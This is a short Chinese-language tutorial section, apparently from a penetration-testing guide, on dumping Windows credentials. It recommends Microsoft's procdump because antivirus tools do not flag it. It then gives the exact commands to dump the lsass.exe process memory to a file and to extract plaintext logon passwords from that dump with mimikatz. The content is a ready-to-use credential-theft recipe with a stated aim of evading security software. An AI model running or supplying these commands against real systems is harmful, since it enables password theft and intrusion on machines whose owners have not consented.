


# 4.1.2 procdump+mimikatz

> 原文：[https://www.zhihuifly.com/t/topic/3417](https://www.zhihuifly.com/t/topic/3417)

### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
```



#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" 
```

